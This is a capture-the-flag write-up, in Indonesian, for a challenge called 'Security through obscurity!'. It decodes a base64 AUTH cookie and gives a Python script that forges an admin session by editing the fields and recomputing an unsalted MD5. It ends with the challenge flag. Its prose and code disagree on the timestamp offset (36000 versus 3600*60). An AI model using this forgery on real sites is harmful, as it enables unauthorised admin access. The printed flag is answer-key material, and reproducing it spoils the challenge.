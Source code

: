 <h1>Security through obscurity!</h1>
<h3>Description</h3>
<label>
You don't have admin access.
</label>
<h3>Solution</h3>
<label>cek cookie AUTH dan decode</label>
<pre>
guest --> user
c39c172ad0ef747f --> random hexa
1604766238 --> unix timestamp
false --> status
c6a3365ef6568d22ddd22e3c027cb786 --> MD5
</pre>
<label>user guest ganti menjadi admin, dan unix timestamp ditambahkan 36000 (1604766238 + 36000 = 1604802238) dan
status false ganti ke true, Terakhir ganti MD5 yaitu hash dari seluruh index</p>

```python3
from base64 import b64encode, b64decode
import hashlib

cookie = "Z3Vlc3QsZmI4MmY2ZGEzZDdlZTYyMiwxNzU5NjY4NDgzLGZhbHNlOjY4Y2JkMzE2NjI3NTcxMTk2ZTRmNTM1MzNkZjE2NDJi"
decode = b64decode(cookie).decode().split(',')
decode[0] = "admin"
decode[2] = str(int(decode[2])+3600*60)
decode[3] = decode[3].split(':')
decode[3][0] = "true"
decode[3][1] = decode[0]+','+decode[1]+','+decode[2]+','+decode[3][0]
encoded_string = decode[3][1].encode()
md5_hash = hashlib.md5(encoded_string)
hex_digest = md5_hash.hexdigest()
admin_cookie = decode[3][1]+':'+hex_digest
encode_admin = b64encode(admin_cookie.encode())
print(encode_admin.decode())
```
<h3>Flag</h3>
<pre>
FLAG-Feg03OSzWhxO03K94108100f
</pre>
